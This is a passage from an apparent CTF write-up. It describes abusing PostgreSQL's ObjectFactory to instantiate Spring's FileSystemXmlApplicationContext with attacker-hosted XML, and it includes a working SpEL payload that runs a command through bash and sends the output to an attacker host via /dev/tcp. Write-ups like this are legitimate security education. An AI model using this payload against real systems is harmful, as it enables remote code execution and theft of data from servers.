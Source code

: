Anyway, `org.postgresql.util.ObjectFactory` has the `.instantiate` method which
can be used to create `FileSystemXmlApplicationContext` with correct
arguments. This class will parse external XML using templating processing,
which we can again host on attacker server. This time, our SSTI will have 0
restrictions :)

```xml
<?xml version="1.0" encoding="UTF-8" ?>
<beans xmlns="http://www.springframework.org/schema/beans"
        xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="http://www.springframework.org/schema/beans
        http://www.springframework.org/schema/beans/spring-beans.xsd">
<bean class="#{T(java.lang.Runtime).getRuntime().exec(
        new String[] {
        '/bin/bash', '-c', '/readflag > /dev/tcp/attacker/port'
        }
        )}"></bean>
</beans>
```

Flag: `rwctf{b2ed2442-b9e0-11ee-a668-00163e01b905}`

Anyway, this was a good intro back to CTFs after I stopped for so long. I
should probably play more.
